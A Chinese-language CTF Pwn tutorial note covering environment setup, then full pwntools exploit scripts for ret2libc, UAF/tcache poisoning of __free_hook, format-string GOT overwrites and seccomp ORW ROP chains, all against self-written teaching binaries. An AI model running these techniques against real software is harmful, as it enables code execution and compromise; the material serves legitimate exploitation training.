

# 37 - CTF Pwn 方向：从 ret2text 到堆利用

> 日期：2026-11-04
> 所属大纲阶段：7. CTF 实战（Pwn 方向）
> 参考资料：
> - CTF Wiki Pwn 章节（ctf-wiki.org）
> - pwntools 官方文档（docs.pwntools.com）
> - pwndbg 官方仓库（github.com/pwndbg/pwndbg）
> - glibc-all-in-one 与 patchelf 官方 README（github.com/matrix1001/glibc-all-in-one）
> - how2heap（github.com/shellphish/how2heap）
> - pwnable.kr / pwnable.tw 官方站点

> **合规声明**：本文全部技术仅限 **CTF 靶场环境**（BUUCTF、pwnable 系列等），示例均为教学性质。

---

## 目录

1. [Pwn 题形态](#1-pwn-题形态)
2. [环境搭建详解](#2-环境搭建详解)
3. [题目难度阶梯](#3-题目难度阶梯)
4. [前置：本地调试通用流程](#4-前置本地调试通用流程)
5. [ret2libc 完整例题 Walkthrough（重头戏）](#5-ret2libc-完整例题-walkthrough重头戏)
6. [堆题入门路线](#6-堆题入门路线)
7. [格式化字符串题回顾与例题](#7-格式化字符串题回顾与例题)
8. [沙箱与 ORW](#8-沙箱与-orw)
9. [常见崩溃排查](#9-常见崩溃排查)
10. [做题模板：exp 骨架](#10-做题模板exp-骨架)
11. [pwntools 进阶速查](#11-pwntools-进阶速查)
12. [学习资源与题单](#12-学习资源与题单)
13. [复盘模板](#13-复盘模板)
14. [自测问题](#14-自测问题)

---

## 1. Pwn 题形态

**Pwn**（俚语「攻破」，源于对二进制漏洞利用的称呼）题的标准形态：

- 附件：一个本地 **ELF** 可执行文件（Linux 可执行格式，见阶段 4 笔记），有时附 `libc.so.6` 与 `ld.so`（出题人指定的运行时环境）；
- 远程：`nc host port`（或 `ncat host port`）给出的服务地址，本地分析、远程拿 flag；
- **flag 权限机制**：靶机上 flag 文件仅 root/题目用户可读，服务以低权限用户运行（或有 setuid），**必须通过 getshell 或读文件的原语**去读——这是「为什么要 shell」的原因。动态 flag 通常只有打通远程交互（shell 里 `cat /flag`）才能拿到。

前置知识：x86-64 汇编、程序内存布局、栈溢出、ROP 概念（阶段 4 笔记 19/20/21/22，按序对应）。

---

## 2. 环境搭建详解

### 2.1 基础（Ubuntu 虚拟机内）

```bash
# 仅在你的 CTF 虚拟机内执行
sudo apt install -y python3-pip python3-venv gdb git patchelf \
                    build-essential seccomp ruby-full
python3 -m venv ~/.venvs/pwn && source ~/.venvs/pwn/bin/activate
pip install pwntools            # 核心利用库
sudo gem install one_gadget seccomp-tools   # ruby 工具
```

### 2.2 pwndbg

```bash
git clone https://github.com/pwndbg/pwndbg
cd pwndbg && ./setup.sh
# 完成后 gdb 自动加载 pwndbg（命令补全、彩色、checksec、heap/ROP 辅助）
```

### 2.3 glibc 多版本：glibc-all-in-one + patchelf（核心）

题目环境各异（Ubuntu 16.04=glibc2.23、18.04=2.27、20.04=2.31、22.04=2.35），**堆题尤其依赖精确版本**。

```bash
git clone https://github.com/matrix1001/glibc-all-in-one
cd glibc-all-in-one
./update_list                       # 拉取可用版本列表
cat list                            # 查看可下载列表（含 deb 路径）
# 下载指定版本（示例三件套）：
./download 2.23-0ubuntu11.3_amd64
./download 2.27-3ubuntu1.6_amd64
./download 2.31-0ubuntu9.9_amd64
./download 2.35-0ubuntu3_amd64
# 每个版本目录下有：libc-2.31.so、ld-2.31.so（以及 debug 符号包 libs）
```

**patchelf 改解释器与 rpath**（把题目 elf 绑定到指定 libc 运行）：

```bash
# 假设题解压到 ./challenge/，附带的 libc 是 2.31
cp libc-2.31.so ./challenge/libc.so.6
cp ld-2.31.so   ./challenge/ld.so
patchelf --set-interpreter ./challenge/ld.so ./challenge/pwn
#   --set-interpreter: 指定程序加载器（ld.so）路径——elf 头里记录的
#      默认是 /lib64/ld-linux-x86-64.so.2（系统版本），改成随附件走
patchelf --set-rpath ./challenge ./challenge/pwn
#   --set-rpath: 运行时库搜索路径——libc.so.6 等动态库优先在这里找，
#      保证加载的是 2.31 而不是系统的 2.35
./challenge/pwn      # 现在行为与远程一致
# 验证：ldd ./challenge/pwn  应显示 ./challenge/libc.so.6
```

---

## 3. 题目难度阶梯

```
ret2text            ← 程序自带后门函数(system("/bin/sh"))，溢出返回过去
   ↓
ret2shellcode       ← 有可写可执行段(jmp shellcode)，溢出跳到自己的代码
   ↓
ret2syscall(32位)   ← 32 位下用 ROP 链调 execve("/bin/sh",0,0)
   ↓
ret2libc            ← 64 位主力：泄露 libc → system("/bin/sh")（本文例题）
   ↓
ROP 进阶            ← 栈迁移、多阶段链、mprotect + shellcode
   ↓
格式化字符串         ← 任意读写原语（第 7 节）
   ↓
堆                  ← UAF/fastbin/tcache（第 6 节），当前题库主流
```

刷题顺序就按这个阶梯从上往下，每级 5-10 题再进下一级。

---

## 4. 前置：本地调试通用流程

### 4.1 file 与观察

```bash
file pwn
# pwn: ELF 64-bit LSB executable, x86-64, dynamically linked,
#      for GNU/Linux 3.2.0, not stripped
# 关注点：64/32 位、static/dynamically linked、stripped（去符号）
```

### 4.2 checksec 逐项解读

```text
    Arch:     amd64-64-little          架构与端序（小端）
    RELRO:    Partial RELRO            重定位保护（Full→GOT 只读，Partial/No→GOT 可写=可打 got）
    Stack:    No canary found          无栈保护→栈溢出不用先过 canary
    NX:       NX enabled               数据段不可执行→不能直接 ret2shellcode
    PIE:      No PIE                   地址随机化关闭→程序地址固定可硬编码
    FORTIFY:  1                        编译期加固（__*_chk 函数）
```

做题第一动作：checksec 结果决定路线——No PIE + Partial RELRO + 格式化字符串 = 改 GOT 的经典组合。

### 4.3 ida/ghidra 找 main 与危险函数

- 静态分析（IDA 反编译 F5 / Ghidra Decompile）找 `main` → 找**危险函数**：`gets`、`read(buf, 大小)`、`strcpy`、`scanf("%s")`、`printf(buf)`（格式化字符串）、`free` 后再 `free`（double free）；
- 关注关键函数：`system`、`backdoor`、`execve`、字符串 `/bin/sh`（Shift+F12 查字符串表）。

### 4.4 确定溢出点与偏移：cyclic 完整演示

```bash
cyclic 200 > pattern.txt
gdb ./pwn
pwndbg> run < pattern.txt
# 崩溃后看 RIP：
Program received signal SIGSEGV
RIP: 0x6161616c  ← 'laaa'
pwndbg> cyclic -l laaa      # 或 cyclic -l 0x6161616c
'laaa' found at offset 72   ← 填充长度 72
```

原理：cyclic 生成 de Bruijn 序列（每 4 字节唯一），崩溃地址反查偏移。32 位看 EIP/返回地址，64 位看 RSP 处被覆盖的返回地址（`cyclic -l $rsp`）。

---

## 5. ret2libc 完整例题 Walkthrough（重头戏）

> **仅限 CTF 靶场环境**（仿 BUUCTF `[强网杯 2019]` 风格的教学题，自编）。

### 5.1 题目

附件：`pwn`（64 位 ELF）+ `libc-2.31.so`。远程 `nc 靶机 端口`。

```bash
file pwn && checksec pwn
# 64-bit, dynamically linked, No PIE, Partial RELRO, NX, canary 存在？——本题无 canary
```

逆向（IDA F5）关键逻辑：

```c
int vuln() {
    char buf[0x50];                 // 80 字节缓冲区
    puts("input:");
    read(0, buf, 0x100);            // 读 256 字节 → 溢出（80+8对齐+...)
    puts(buf);                      // 顺带回显，可用于泄露
    return 0;
}
int main() { setbuf(...); vuln(); }
```

**无 system、无 /bin/sh、无后门** → 标准 ret2libc（返回导向编程 Return-Oriented Programming, 见阶段 4 笔记 22）。

### 5.2 思路：两段式（泄露 → 二次攻击）



为什么必须泄露：**地址随机化（ASLR）** 下 libc 加载地址每次不同，但**函数在 libc 内的偏移固定**（由附件 libc 确定）。

### 5.3 找偏移与 gadget

```bash
cyclic 200 | ./pwn        # 本地试溢出
# gdb 里 cyclic -l 得溢出偏移 = 88（0x50 buf + 8 saved rbp）
ROPgadget --binary pwn --only "pop|ret" | grep "pop rdi"
# 0x4013d3 : pop rdi ; ret     ← 64 位第一个参数进 RDI，需要它传参
```

### 5.4 完整 exp（每行注释）

```python
#!/usr/bin/env python3
# 仅限 CTF 靶场环境。依赖: pwntools
from pwn import *

context(arch='amd64', os='linux', log_level='info')

elf  = ELF('./pwn')                 # 读程序符号/GOT/PLT
libc = ELF('./libc-2.31.so')        # 读 libc 符号偏移

# 本地/远程一键切换（环境变量 REMOTE 控制）
if os.environ.get('REMOTE'):
    sh = remote('靶机', 端口)
else:
    sh = process('./pwn')

offset      = 88                    # cyclic 算出的溢出偏移
pop_rdi     = 0x4013d3              # ROPgadget 找到
puts_plt    = elf.plt['puts']       # puts 的 PLT（No PIE 固定地址）
puts_got    = elf.got['puts']       # puts 的 GOT（存运行时真实地址）
main_addr   = elf.symbols['main']   # 返回 main 再来一轮

# ---- 第一轮：泄露 puts 真实地址 ----
payload1 = b'A' * offset
payload1 += p64(pop_rdi) + p64(puts_got)   # RDI = puts@got
payload1 += p64(puts_plt)                  # 调 puts(puts@got) → 回显 got 内容
payload1 += p64(main_addr)                 # 返回 main，重新触发 vuln
sh.sendlineafter(b'input:', payload1)
sh.recvline()
leak        = u64(sh.recvline().strip().ljust(8, b'\x00'))  # 6 字节地址补零成 8
log.success(f'puts runtime = {hex(leak)}')

# ---- 算 libc 基址 ----
libc.address = leak - libc.symbols['puts']   # 基址 = 真实地址 - 偏移
log.success(f'libc base = {hex(libc.address)}')

# ---- 第二轮：system("/bin/sh") ----
payload2 = b'A' * offset
payload2 += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh\x00')))  # RDI = "/bin/sh"
payload2 += p64(libc.symbols['system'])                             # 调 system
sh.sendlineafter(b'input:', payload2)

sh.interactive()    # 进入交互，cat /flag 拿 flag
```

### 5.5 本地调试通过 → 打远程

- 本地先 `python3 exp.py` 走 process，进 interactive 手敲 `ls; cat /flag`（本地造个假 flag 文件验证）；
- **本地栈对齐问题**：若第二轮 `system` 处崩溃（见 [第 9 节 movaps](#9-常见崩溃排查)），在 `pop rdi` 前垫一个 `ret`（`p64(0x40101a)` 类 ret gadget）；
- 本地通过后 `REMOTE=1 python3 exp.py` 打远程，flag 在 `/flag` 或 `/home/ctf/flag`。

### 5.6 LibcSearcher / libc-database

题目**没给 libc** 时，用泄露的 puts 地址低 12 位（页内偏移固定）查 libc 版本：

- 在线：libc.blukat.me / libc.rip，输入 `puts` 低 3 位十六进制；
- 本地：LibcSearcher（国内常用但库老）；或 clone libc-database 后 `./find puts <低12位>`；
- 确定版本后按本题流程下载对应 libc + patchelf 本地复现，再打远程。

---

## 6. 堆题入门路线

### 6.1 概念回顾

堆结构、malloc/free、fastbin/smallbin/tcache、UAF（Use-After-Free，释放后使用）与 double free 的原理见 **20/21 篇**（阶段 4 堆笔记），本文只讲攻击思路串讲与例题。

### 6.2 fastbin attack 思路（glibc ≤ 2.26 主场）

1. **fastbin**：小 chunk（≤0x80）的 free 链表（单链表，fd 指向前一个）；
2. double free（用 A→B→A 三明治绕过 fastbin 链头重复检查（old==p，即 fasttop 检测））或 UAF 改 fd，使 malloc 取回**伪造地址**的 chunk（fake chunk 要求 size 字段合法——`size==对应 fastbin 大小`）；
3. 目的地常是 `__malloc_hook - 0x23`（错位构造合法 size），写 **one_gadget** 地址；
4. 再 malloc 触发 `__malloc_hook` → getshell。

### 6.3 tcache poisoning 拿 __free_hook（glibc 2.26 ~ 2.33，本题库主流）

**tcache**（thread-local caching，每线程小 chunk 缓存）在 glibc 2.26 引入：`tcache_entry` 只有 `next`（2.32 前无指针保护，可直接写）。

完整流程（UAF 场景，详细图解）：

```
[1]  malloc A(0x20), malloc B(0x20)        A ── B 在 tcache 大小范围
[2]  free(A); free(B)                       tcache[idx]: B → A
[3]  UAF：B 的 next 指针仍可写（有 show/edit 功能）：
     edit(B, p64(__free_hook))              tcache[idx]: B → __free_hook
[4]  malloc → 取回 B（count 2→1，链头变 __free_hook）
[5]  malloc → 取回 __free_hook（返回值就是 __free_hook 地址！）
[6]  edit(该 chunk, p64(one_gadget 或 system))  → 覆写 __free_hook = system
[7]  free(一个内容为 "/bin/sh\x00" 的 chunk) → 触发 free_hook("/bin/sh") → shell
```

要点：

- `__free_hook` 是 glibc 全局变量：调用 `free(p)` 时若 hook 非空则执行 `hook(p, caller)`——`p` 恰是 chunk 内容指针，所以 chunk 里放 `/bin/sh`，hook 放 `system` 完美对接；
- one_gadget 替代方案：`one_gadget ./libc-2.31.so` 列出 execve("/bin/sh") 的 gadget 及约束（`[rsp+0x40]==NULL` 之类），不满足约束就退回 system + /bin/sh 组合；
- tcache 满了才进 fastbin（每桶 7 个），所以顺序控制（free 顺序与数量）是堆题基本功。

### 6.4 glibc 2.34 之后

`__malloc_hook/__free_hook` **被移除**，上述打法失效。新趋势：**exit 相关**（`exit_funcs`/`__exit_funcs` 劫持）、**IO_FILE 攻击**（伪造 `_IO_FILE` 结构打 `_IO_2_1_stdout_` 泄露 / `_IO_list_all` → FSOP），以及 house of 系列新变种。见 how2heap 与最新赛题 wp。

### 6.5 堆例题 Walkthrough：UAF + tcache（教学题）

> **仅限 CTF 靶场环境**（仿 `[*CTF]` 风格自编，glibc 2.31）。

菜单堆题：`1.add(idx,size) 2.delete(idx) 3.edit(idx,content) 4.show(idx)`，add 限制 size 0x20~0x500。漏洞：`delete` 后指针未清零（UAF，可继续 edit/show）。

```python
#!/usr/bin/env python3
# 仅限 CTF 靶场环境。依赖: pwntools
from pwn import *
context(arch='amd64', os='linux')
libc = ELF('./libc-2.31.so')
sh   = process('./heap') if not os.environ.get('REMOTE') else remote('靶机', 端口)

def add(size, content=b'a'):    # idx 自动递增（题目简化）
    sh.sendlineafter(b'choice:', b'1'); sh.sendlineafter(b'size:', str(size).encode())
    sh.sendlineafter(b'content:', content)
def delete(idx):
    sh.sendlineafter(b'choice:', b'2'); sh.sendlineafter(b'idx:', str(idx).encode())
def edit(idx, content):
    sh.sendlineafter(b'choice:', b'3'); sh.sendlineafter(b'idx:', str(idx).encode())
    sh.sendlineafter(b'content:', content)
def show(idx):
    sh.sendlineafter(b'choice:', b'4'); sh.sendlineafter(b'idx:', str(idx).encode())

# [1] 两个 tcache 块
add(0x20, b'A')         # idx 0
add(0x20, b'B')         # idx 1
# [2] 释放 → tcache 链头 0 → 1（count 2）
delete(1); delete(0)
# [3] 先泄露 libc（poison 的前置）：add 一个大块（chunk 0x510 > tcache 上限 0x410），
#     free 后进 unsorted bin；UAF 用 show 读其 fd → main_arena 地址 → libc 基址
add(0x500, b'C')        # idx 2，size 0x500 在题面限制 0x20~0x500 内
delete(2); show(2)      # fd 指向 main_arena+96 → 泄露
libc.address = u64(sh.recvline().strip().ljust(8, b'\x00')) - 0x1ecbe0  # main_arena+96 偏移按 libc 定
free_hook = libc.symbols['__free_hook']
system    = libc.symbols['system']
log.success(f'libc base {hex(libc.address)}')

# [4] tcache poisoning：改链头 idx0 的 next → __free_hook（此时 tcache: 0 → 1，count 2）
edit(0, p64(free_hook))         # tcache: 0 → __free_hook
add(0x20, b'D')                 # idx 3 取回 0（count 2→1，链头变 __free_hook）
add(0x20, p64(system))          # idx 4 取回 __free_hook（count 1→0），写 system
# [5] 触发：free 一个内容为 /bin/sh 的块
add(0x20, b'/bin/sh\x00')       # idx 5
delete(5)                       # free_hook("/bin/sh") → system("/bin/sh")
sh.interactive()
```

调试要点：pwndbg 的 `heap`、`bins`、`tcache` 命令随时看堆状态；偏移（main_arena+96）用本地同版本 libc 调一次确定。

---

## 7. 格式化字符串题回顾与例题

原理与任意读写（`%n`）见 **23 篇**（阶段 4 格式化字符串笔记）。CTF 套路速查：

| 目标 | payload 思路 |
| ---- | ---- |
| 泄露栈/内存 | `%p` 枚举、`%s` 读指针、`%n$p` 定位 |
| 改 GOT（Partial RELRO） | fmt 写 `printf@got` → `system`，再触发 printf("/bin/sh") 类 |
| 改返回地址 | 定位栈上返回地址，`%n` 写 one_gadget |
| 写大值 | 分多次 `%hn`（2 字节）写，避免 payload 过长 |

**例题流程（fmt 改 got，教学题）**：程序循环读入并 `printf(buf)`，随后会调用 `puts("bye")`。

1. `pwndbg> fmtarg 41`（或手工 `AAAA %6$p` 试偏移）确定 buf 在栈上第 6 参；
2. 目标：把 `printf@got` 改成 `system`（需要先泄露 libc——用 `%s` 读 got）；
3. exp 用 pwntools 的 `fmtstr_payload(6, {elf.got['printf']: system})` 一行生成；
4. 发送后再输入 `/bin/sh` 让下一次 `printf`（已被换成 system）执行 shell。

```python
payload = fmtstr_payload(6, {printf_got: system_addr}, write_size='short')
```

---

## 8. 沙箱与 ORW

**seccomp 沙箱**：题目用 seccomp 过滤系统调用（常见：禁 `execve` → 无法直接 getshell）。

```bash
seccomp-tools dump ./pwn
#  line  CODE  JT   JF      K
#   ...
#   0006: 0x15 0x00 0x01 0x0000003b  if (A != execve) goto 0008
#   0007: 0x06 0x00 0x00 0x00000000  return KILL        ← execve 被禁
#   0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW       ← 其余放行
```

**ORW（open/read/write）**：禁 execve 时改用三条系统调用直接读 flag 文件：

```
open("/flag", 0) → fd(3)
read(3, buf, 0x100)
write(1, buf, 0x100)     ← 输出到屏幕
```

ROP 链构造（64 位，需 `pop rdi/rsi/rdx` gadget，rdx 难找时用 `__libc_csu_init` 万金油 gadget 或 ret2csu）：

```python
chain = flat(
    pop_rdi, flag_str_addr, pop_rsi, 0, pop_rdx_r12, 0x100, 0,
    open_addr,                                    # open("/flag",0)
    pop_rdi, 3, pop_rsi, buf_addr, pop_rdx_r12, 0x100, 0,
    read_addr,                                    # read(3,buf,0x100)
    pop_rdi, 1, pop_rsi, buf_addr, pop_rdx_r12, 0x100, 0,
    write_addr,                                   # write(1,buf,0x100)
)
```

**SROP（Sigreturn-Oriented Programming）**一句话：系统调用号极缺/gadget 极少时，构造伪造信号帧一次性设置**全部寄存器**（rt_sigreturn），适合 syscall 存在但普通 ROP 拼不出来的场景（pwntools：`SigreturnFrame()`）。

---

## 9. 常见崩溃排查

| 症状 | 原因 | 修复 |
| ---- | ---- | ---- |
| 本地 exp 到 `system` 处 `SIGSEGV`，RIP 在 `movaps` 指令 | **栈对齐**：glibc 的 system 内部用 SSE 指令要求 16 字节对齐（System V AMD64 ABI 约定 call 入栈时 rsp%16==8） | 在链前垫一个 `ret` gadget（`payload += p64(ret_gadget)`） |
| 堆题本地好好的、远程行为怪异 | **libc 版本不符** | strings 泄露版本 / 重跑 glibc-all-in-one + patchelf 流程 |
| `one_gadget` 执行了却段错误 | gadget **约束不满足**（如 `[rsp+0x30]==NULL`、`r12==NULL`） | 换一个 gadget 或改用 system("/bin/sh")；用调试器检查约束寄存器 |
| 远程收不到回显/输出乱序 | **缓冲区刷新**：程序未 `setbuf`，stdout 全缓冲（管道下不刷新） | 交互用 `recvuntil`/`recvline` 精确匹配；必要时链尾再触发一次 puts 才有输出 |
| 本地过远程挂（非堆题） | 环境/ASLR/栈初始内容差异 | 检查是否依赖了本地固定地址；泄露逻辑是否稳健（去换行、补零） |

---

## 10. 做题模板：exp 骨架

```python
#!/usr/bin/env python3
# 模板：文件名 exp.py，用法: python3 exp.py [REMOTE]
from pwn import *

context(arch='amd64', os='linux', log_level='debug')  # debug 调试期开，交稿关
context.terminal = ['tmux', 'splitw', '-h']           # gdb.debug 方便

elf  = ELF('./pwn')
libc = ELF('./libc-2.31.so')

def start():
    if args.REMOTE:                    # python3 exp.py REMOTE
        return remote('靶机', 1337)
    return process('./pwn')

sh = start()

# ---- 交互函数（把菜单操作封装，可读性关键） ----
def add(x): sh.sendlineafter(b'>', b'1'); sh.sendlineafter(b':', str(x).encode())

# ---- payload 构造 ----
# offset = cyclic 实测
# payload = flat({...})

sh.interactive()
```

结构建议：`参数/常量区 → 交互函数区 → 第一轮逻辑 → 计算区 → 第二轮逻辑 → interactive`，注释写清每轮目的，赛后 wp 直接从 exp 衍生。

---

## 11. pwntools 进阶速查

| 用法 | 说明 |
| ---- | ---- |
| `gdb.debug('./pwn', 'b vuln\nc')` | 弹出 gdb 并下断点（配 `context.terminal`），断在 vuln |
| `gdb.attach(sh)` | attach 已运行进程（改完脚本不想重跑时） |
| `ELF('./pwn').symbols['vuln']` / `.plt['puts']` / `.got['puts']` | 符号/PLT/GOT 直取 |
| `libc.search(b'/bin/sh\x00').__next__()` | 在 libc 中找字符串地址 |
| `cyclic(200)` / `cyclic_find(0x6161616c)` | 生成/反查偏移 |
| `flat({0:'A'*88, 88:ret, 96:system})` | 按偏移字典铺 payload（比手拼稳） |
| `sh.recvuntil(b'input:')` | **收满指定串**返回（含定界符）——交互首选 |
| `sh.recvline()` | 收一行（到 `\n`） |
| `sh.recvall(timeout=2)` | 收到连接关闭/超时，返回全部——最后收 flag |
| `sh.sendlineafter(b'choice:', payload)` | 「收 until 后再发送」合体，菜单题神器 |
| `p64(x)` / `u64(b)` | 打包/解包（p32/u32 同理） |
| `fmtstr_payload(6, {addr: val})` | 格式化字符串写内存自动生成 |
| `SigreturnFrame()` | SROP 帧构造 |

---

## 12. 学习资源与题单

- **pwnable.kr**：入门 `fd`（文件描述符）、`collision`（md5 碰撞逻辑）、`bof`（第一道栈溢出）、`random`（伪随机）→ Rookiss 系列；
- **pwnable.tw**：进阶（`start`/`orw`/`dubblesort` 起步，`Death Note`/`Silver Bullet` 中级），libc 版本教学严谨；
- **BUUCTF Pwn 专区推荐 20 题（顺序刷）**：
  1. test_your_nc（热身） 2. rip 3. warmup_csu_2016 4. ciscn_2019_n_1 5. [第五空间 2019]baby_pwn(32 位入门) 6. pwn1_sctf_2016（gets/替换） 7. jarvisoj_level0/2/3（ret2text→ret2libc 阶梯） 8. ciscn_2019_c_1（经典 ret2libc） 9. [OGeek]babyrop 10. jarvisoj_tell_me_something 11. babyheap_2017_1.0.4（fastbin attack 教科书） 12. hitcontraining_uaf（UAF 入门） 13. zctf_2016_note3（unlink） 14. babyfengshui_33c3_2016 15. bjdctf_2020_babyheap2.0（tcache） 16. roarctf_2019_easy_pwn（off-by-one） 17. ciscn_2019_es_2/3（es_2：栈迁移） 18. gwctf_2019_shell 19. others_shellcode 20. inndy_rop（ROP 链练习）；
- how2heap：按 glibc 版本分支逐个 demo 跑通，堆题圣经。

---

## 13. 复盘模板

```markdown
### [平台-题号] 题目名（方向：Pwn）
- **题目信息**：保护/checksec 结果、libc 版本、菜单功能
- **考点**：如 tcache poisoning + __free_hook（→ 本笔记 6.3；堆基础 → 20/21 篇）
- **卡点**：如「不知道 movaps 栈对齐，本地挂了一小时」/「tcache 桶计数没算对」
- **新学知识**：新 gadget 位置、新偏移获取方法、调试技巧（含最小复现 exp）
- **同类题迁移**：识别特征（No PIE + fmt → 改 GOT；2.31 堆 UAF → free_hook 流水线）
```

---

## 14. 自测问题

1. Pwn 题「远程拿 flag」与「本地调试」为什么要分开两个环境？flag 权限机制如何逼你 getshell？
2. checksec 五项各防什么攻击？Partial RELRO 意味着哪个攻击面仍然存在？
3. 写出 glibc-all-in-one 下载 2.31 与 patchelf 绑定本地运行的三条命令，并解释 `--set-interpreter` 与 `--set-rpath` 的作用。
4. ret2libc 两段式中，为什么第一轮要返回 main 而不是 `_start`？泄露 puts 地址后如何计算 libc 基址？
5. 题目没附 libc，你有哪些手段确定远程 libc 版本？
6. 叙述 tcache poisoning 覆写 `__free_hook` 的完整七步流程；为什么最后 free 的 chunk 要写 `/bin/sh`？
7. glibc 2.34 后 `__free_hook` 打法失效，新趋势有哪些方向？
8. seccomp 禁 execve 时 ORW 链的三步是什么？rdx 不可控时用什么 gadget 解决？
9. `movaps` 崩溃的根因与一行修复方案是什么？
10. `recvuntil` / `recvline` / `recvall` 各自的返回时机与适用场景？
11. one_gadget 用不了时（约束不满足），替代方案是什么？
12. cyclic 求偏移的原理是什么？64 位下应该反查哪个寄存器/内存位置的值？

---

> 上一篇：[36-CTF-Web-方向.md](36-CTF-Web-方向.md)　下一篇：[38-CTF-Crypto-方向.md](38-CTF-Crypto-方向.md)

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「5.2 思路：两段式」节 · ret2libc 泄露→二次攻击流程图 | flowchart TD |
